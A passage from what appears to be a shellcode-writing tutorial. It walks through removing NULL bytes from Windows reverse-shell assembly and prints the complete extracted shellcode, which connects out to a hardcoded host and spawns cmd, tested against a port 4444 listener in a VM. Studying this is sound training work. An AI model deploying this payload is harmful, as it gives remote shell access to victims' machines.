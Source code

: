 ~~~
  40102a:	53                   	push   ebx
  40102b:	56                   	push   esi
  40102c:	68 79 cc 3f 86       	push   0x863fcc79
  401031:	ff d5                	call   ebp
  401033:	89 e0                	mov    eax,esp
  401035:	4e                   	dec    esi
  401036:	56                   	push   esi
  401037:	46                   	inc    esi
  401038:	ff 30                	push   DWORD PTR [eax]
  40103a:	68 08 87 1d 60       	push   0x601d8708
  40103f:	ff d5                	call   ebp
[...]
~~~

Notice that both `push 0x646d63` and `mov BYTE PTR [eax],0x44` add NULL bytes.

To solve the first issue, we transform `push 0x00646D63` into:

~~~
	mov ebx, 0x646D6390    ;push our command line: 'cmd',0 padded with \x90
	shr ebx, 8	       ;rotate right (ebx = 0x00646D63)
	push ebx
~~~

For the second one, we transform this snippet:

~~~
	lea eax, [esp + 0x10]    ; Set EAX as a pointer to our STARTUPINFO Structure
	mov byte [eax], 0x44     ; Set the size of the STARTUPINFO Structure
~~~

Into:

~~~
	mov byte [esp + 0x10], 0x44
	lea eax, [esp + 0x10]  ; Set EAX as a pointer to our STARTUPINFO Structure
~~~

This works because we eliminate the `mov BYTE PTR [eax],0x44`, which was causing the problem.

Finally, lets extract the shellcode and see if it is NULL-free.

~~~
$ objdump -d Public/ctp/shellcode.exe|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x66\xb8\x33\x32\x50\x68\x77\x73\x32\x5f\x54\xbb\x7b\x1d\x80\x7c\xff\xd3\x89\xc5\x31\xc0\x66\xb8\x75\x70\x50\x68\x74\x61\x72\x74\x68\x57\x53\x41\x53\x54\x55\xbb\x40\xae\x80\x7c\xff\xd3\x31\xdb\x66\xbb\x90\x01\x29\xdc\x54\x31\xc9\x66\xb9\x02\x02\x51\xff\xd0\x31\xc0\x66\xb8\x74\x41\x50\x68\x6f\x63\x6b\x65\x68\x57\x53\x41\x53\x54\x55\xbb\x40\xae\x80\x7c\xff\xd3\x31\xdb\x53\x53\x53\x31\xc9\xb1\x06\x51\x43\x53\x43\x53\xff\xd0\x50\x5f\x31\xc0\xb8\x90\x65\x63\x74\xc1\xe8\x08\x50\x68\x63\x6f\x6e\x6e\x54\x55\xbb\x40\xae\x80\x7c\xff\xd3\xbb\xd1\xb9\x11\x1c\x81\xeb\x11\x11\x11\x11\x53\x66\x68\x11\x5c\x31\xdb\xb3\x02\x66\x53\x89\xe2\x6a\x10\x52\x57\xff\xd0\xbb\x90\x63\x6d\x64\xc1\xeb\x08\x53\x89\xe3\x57\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\xc6\x44\x24\x10\x44\x8d\x44\x24\x10\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56\x53\x56\xbb\x6b\x23\x80\x7c\xff\xd3"
~~~

Awesome! To test it, we set a listener on port 4444 at our server and run it in the Windows VM.
